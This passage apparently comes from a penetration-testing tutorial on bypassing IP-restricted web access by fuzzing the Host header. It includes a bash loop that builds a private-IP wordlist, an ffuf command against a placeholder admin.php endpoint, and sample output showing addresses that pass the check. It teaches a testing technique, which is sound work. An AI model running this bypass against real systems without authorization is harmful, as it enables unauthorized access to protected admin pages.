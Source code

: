 ![image](nSMpV9Av7Oyn.png)

## Fuzzing

If the web application accepts only specific IPs of an internal network, manual testing is impossible because of the large number of IP private addresses. However, we can fuzz the host header to check if we can bypass the authentication check. For instance, if we want to create a wordlist of the `192.168.0.0-192.168.255.255` private IP address range, we could use a bash script similar to the following:

```bash
for a in {1..255};do
    for b in {1..255};do
        echo "192.168.$a.$b" >> ips.txt
    done
done

```

We can then use a fuzzer like [ffuf](https://github.com/ffuf/ffuf) to fuzz the host header for IP addresses that bypass the host header check:

```shell
ffuf -u http://IP:PORT/admin.php -w ips.txt -H 'Host: FUZZ' -fs 752

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://IP:PORT/admin.php
 :: Wordlist         : FUZZ: ips.txt
 :: Header           : Host: FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 752
________________________________________________

192.168.178.28          [Status: 200, Size: 747, Words: 49, Lines: 36, Duration: 0ms]
192.168.178.32          [Status: 200, Size: 747, Words: 49, Lines: 36, Duration: 0ms]
192.168.178.156         [Status: 200, Size: 747, Words: 49, Lines: 36, Duration: 0ms]

```
